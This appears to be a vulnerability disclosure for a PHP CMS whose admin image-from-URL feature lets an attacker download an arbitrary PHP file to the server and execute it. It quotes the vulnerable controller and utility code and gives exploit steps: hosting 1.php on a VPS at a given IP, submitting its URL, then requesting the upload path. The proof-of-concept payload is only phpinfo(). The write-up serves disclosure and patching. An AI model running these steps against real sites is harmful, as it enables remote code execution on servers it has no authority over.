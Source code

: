 ### Remote File Download to RCE

In the "Company Profile" section, add an image -> choose "Extract Image from URL" and input the VPS file address for download:
```r
http://124.220.37.173:8999/1.php
```
![](./public/4.png)

The controller path is `app\admin\controller\PicManager.php` which calls the `getImg` function:
```php
elseif ($type == "extract") {
    $groupId = 0;
    $url = $param["extractUrl"];
    $result = $this->getImg($url);
    if ($result["code"] == 0) {
        return $result;
    }
    $result = [
        "total" => 0,
        "currentPage" => 0,
        "pageSize" => 0,
        "imgList" => 0,
        "groupId" => $groupId,
        "groupList" => $groupList,
        "type" => $type,
        "handle" => $handle,
        "startDate" => $startDate,
        "endDate" => $endDate,
        "extractedUrl" => $result["file"],
        "id" => $result["id"]
    ];
```

In `getImg`, the `download` method and the `upload` method are called in sequence:
```php
private function getImg($url = "", $filename = "")
{
    $imageUtil = new ImageUtil();
    $fileName = $imageUtil->download($url, $filename); // Full local file path
    if (empty($fileName)) {
        return ['code' => 0, 'msg' => "Failed to fetch file"];
    }
    $file = new File($fileName);
    $result = $imageUtil->upload($file);
    if ($result['code'] == 1) {
        unlink($fileName);
        return $result;
    } else {
        return ['code' => 0, 'msg' => "Upload failed"];
    }
}
```
In `download`, the `url` is fully controllable and will call the `get_url_content` method to download the file:
```php
public function download($url = "", $filename = "", $path = "")
{
    $filePath = config('filesystem.disks.folder') . DIRECTORY_SEPARATOR . date("Ymd");
    if (!empty($path)) {
        $filePath = $path;
    }
    if (!is_dir($filePath)) {
        tp_mkdir($filePath);
    }
    if (empty($filename)) {
        // Upload to local server
        $filename = basename($url);
    }
    $filename = $filePath . DIRECTORY_SEPARATOR . $filename;
    $content = get_url_content($url);
    file_put_contents($filename, $content);
    return $filename;
}
```
In `download`, the filename is obtained from the URL request, and there is no filtering, so a PHP file can be downloaded, and the file is directly written using `file_put_contents`.

As shown in the debugging output, the content of the file is the remote file's content, and the written file is `1.php`.As follows, you can see that content is the content of the remote file, and the file written is the 1.php, and the default write path is 'uploads/date("Ymd")/', you only need to know the upload date
![](./public/1.png)


However, when attempting to upload, the WAF checks the file extension. Since it is a PHP file, the WAF blocks it, and it returns `code=0`:
![](./public/2.png)


```php
public function upload($file, $groupId = 0, $fileType = "image", $app = 1, $folder_name = "files", $upload_type = 0)
{
    // Record file in the database
    $OriginalName = "";
    if (method_exists($file, "getOriginalName")) { // Check if method exists
        $OriginalName = $file->getOriginalName();
    } else {
        $OriginalName = $file->getFilename();
    }

    // File extension
    if (method_exists($file, "getOriginalExtension")) {
        $imageType = $file->getOriginalExtension();
    } else {
        $imageType = $file->getExtension();
    }

    if (!$this->validationSuffix($imageType)) { // Validate image type
        return ['code' => 0, 'msg' => 'Please upload a ' . $this->attachment['i_suffixs'] . ' format file', "originalName" => $OriginalName];
    }
}
```

Eventually, `code=0` is returned, and `unlink` is bypassed, so the file is not deleted:
![](./public/3.png)


### Exploit Attack

Start the VPS with a port service:
```r
python3 -m http.server 8999
```
Place the malicious `1.php` file on the VPS:
```php
<?php
phpinfo();
```

Then, in the "Company Profile" section, add an image -> choose "Extract Image from URL", and input the VPS file address for download:
```r
http://124.220.37.173:8999/1.php
```
![](./public/4.png)


Finally, access the path, and the PHP code will be successfully parsed:
```r
/uploads/20250125/1.php
```
![](./public/5.png)
